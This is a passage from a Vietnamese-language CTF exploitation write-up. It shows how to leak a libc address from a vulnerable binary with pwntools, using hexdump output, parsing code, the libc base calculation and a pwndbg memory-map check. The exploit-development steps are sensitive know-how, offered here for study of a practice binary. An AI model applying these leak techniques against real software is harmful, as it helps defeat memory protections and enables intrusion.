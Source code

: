 ```sh
[DEBUG] Received 0x81 bytes:
    00000000  41 61 41 61  41 61 41 61  41 61 41 61  41 61 41 61  │AaAa│AaAa│AaAa│AaAa│
    *
    00000060  41 61 41 61  61 61 61 61  61 61 61 61  61 61 61 61  │AaAa│aaaa│aaaa│aaaa│
    00000070  61 61 61 61  61 61 61 61  64 0a 30 4a  73 aa bb 70  │aaaa│aaaa│d·0J│s··p│
    00000080  0a                                                  │·│
    00000081
```
- Ta thấy 6 byte 30 4a 73 aa bb 70 chính là libc_leak, ta sẽ bỏ qua những byte trc đó và chỉ nhận 6 byte đến byte 0a sau đó bổ sung 2 byte null cho đủ 8 byte
```py
p.recvuntil(b'\x61\x61\x64\x0a')
libc_leak = u64(p.recv(6) + b'\0'*2)
print("libc_leak: ", hex(libc_leak))
```
- Giờ gửi lên ktra xem leak đúng chưa:
```sh
[0x601018] puts@GLIBC_2.2.5 -> 0x7feaed9b5a30 (puts) ◂— push r13
```
```sh
[DEBUG] Received 0x81 bytes:
    00000000  41 61 41 61  41 61 41 61  41 61 41 61  41 61 41 61  │AaAa│AaAa│AaAa│AaAa│
    *
    00000060  41 61 41 61  61 61 61 61  61 61 61 61  61 61 61 61  │AaAa│aaaa│aaaa│aaaa│
    00000070  61 61 61 61  61 61 61 61  64 0a 30 5a  9b ed ea 7f  │aaaa│aaaa│d·0Z│····│
    00000080  0a                                                  │·│
    00000081
libc_leak:  0x7feaed9b5a30
[*] Switching to interactive mode
```
-> Đúng
- Giờ tính đc libc base = libc_leak - offset
```py
libc.address = libc_leak - libc.sym.puts
print("libc_base: ", hex(libc.address))
```
- Kiểm tra bằng debug động:
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
          0x400000           0x401000 r-xp     1000       0 vuln_patched
          0x600000           0x601000 r--p     1000       0 vuln_patched
          0x601000           0x602000 rw-p     1000    1000 vuln_patched
        0x1e99e000         0x1e9bf000 rw-p    21000       0 [heap]
    0x7c67821d9000     0x7c67823c0000 r-xp   1e7000       0 libc.so.6
    0x7c67823c0000     0x7c67825c0000 ---p   200000  1e7000 libc.so.6
```
```
[DEBUG] Received 0x81 bytes:
    00000000  41 61 41 61  41 61 41 61  41 61 41 61  41 61 41 61  │AaAa│AaAa│AaAa│AaAa│
    *
    00000060  41 61 41 61  61 61 61 61  61 61 61 61  61 61 61 61  │AaAa│aaaa│aaaa│aaaa│
    00000070  61 61 61 61  61 61 61 61  64 0a 30 9a  25 82 67 7c  │aaaa│aaaa│d·0·│%·g|│
    00000080  0a                                                  │·│
    00000081
libc_base:  0x7c67821d9000
[*] Switching to interactive mode
$
```
-> Đúng
